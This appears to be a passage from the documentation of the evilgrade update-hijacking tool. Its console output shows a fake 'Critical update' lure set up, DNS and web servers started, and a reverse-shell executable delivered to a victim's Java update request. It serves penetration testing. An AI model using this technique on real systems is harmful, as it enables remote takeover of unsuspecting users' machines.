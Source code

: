 ``` console
| enable       |                                               1 | Status                                                 |
| atitle       | Critical vulnerability                          | Title name to be displayed in the systray item popup   |
| arg          |                                                 | Arg passed to Agent                                    |
| adescription | This critical update fix internal vulnerability | Description  to be displayed in the systray item popup |
| description  | This critical update fix internal vulnerability | Description to be displayed during the update          |
| agent        | ./agent/reverseshellsign.exe                    | Agent to inject                                        |
| title        | Critical update                                 | Title name displayed in the update                     |
'--------------+-------------------------------------------------+--------------------------------------------------------'
```
#### Start services (DNS Server and WebServer)
``` console
evilgrade>start
evilgrade>
[28/10/2010:21:35:55] - [WEBSERVER] - Webserver ready. Waiting for connections ...
evilgrade>
[28/10/2010:21:35:55] - [DNSSERVER] - DNS Server Ready. Waiting for Connections ...

#### Waiting for victims

evilgrade>
[25/7/2008:4:58:25] - [WEBSERVER] - [modules::sunjava] - [192.168.233.10] - Request: "^/update/[.\\d]+/map\\-[.\\d]+.xml"
evilgrade>
[25/7/2008:4:58:26] - [WEBSERVER] - [modules::sunjava] - [192.168.233.10] - Request: "^/java_update.xml\$"
evilgrade>
[25/7/2008:4:58:39] - [WEBSERVER] - [modules::sunjava] - [192.168.233.10] - Request: ".exe"
evilgrade>
[25/7/2008:4:58:40] - [WEBSERVER] - [modules::sunjava] - [192.168.233.10] - Agent sent: "./agent/reverseshell.exe"
```
#### Show status and victims logs
``` console
evilgrade>show status
Webserver (pid 4134) already running

Users status:
============

.---------------------------------------------------------------------------------------------------------------.
| Client         | Module           | Status | Md5,Cmd,File                                                     |
+----------------+------------------+--------+------------------------------------------------------------------+
| 192.168.233.10 | modules::sunjava | send   | d9a28baa883ecf51e41fc626e1d4eed5,'',"./agent/reverseshell.exe"   |
'----------------+------------------+--------+------------------------------------------------------------------'
```
